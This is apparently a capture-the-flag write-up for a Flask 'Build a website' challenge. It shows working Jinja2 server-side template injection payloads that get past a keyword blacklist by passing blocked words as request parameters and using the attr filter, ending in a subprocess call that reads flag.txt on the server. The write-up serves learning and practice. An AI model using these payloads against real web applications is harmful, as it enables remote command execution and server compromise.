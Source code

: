 ## Build a website 

***I made a website where y'all can create your own websites! Should be considerably secure even though I'm a bit rusty with Flask.***

![](https://i.ibb.co/Q6GnQPr/build-a-website.png?size=150)

On the form we can enter some html which will be converted to webpage. My first thought was to inject some SSTI and I saw that {{ 7*7 }} results in 49 so the framework will be flask.
after some tries I recognized that on back-end there must be some blacklist on "globals, class" words which some confusing message (there is no stack smashing, it seems to be written by hand!!) 

```*** stack smashing detected ***: python3 terminated```


OK, my solution is: Send blacklist words as a GET params and prepare a statement ommiting blacklist
To avoid converting to strings we need to use ```attr``` function

to list all classes:
```{{
''|attr(request.args.p1)|attr(request.args.p2)|attr(request.args.p3)()
}}```

to send os commands:
```{{
(''|attr(request.args.p1)|attr(request.args.p2)|attr(request.args.p3)())[360]('cat flag.txt',shell=True,stdout=-1).communicate()
}}```
with params:
```&p1=__class__&p2=__base__&p3=__subclasses__```
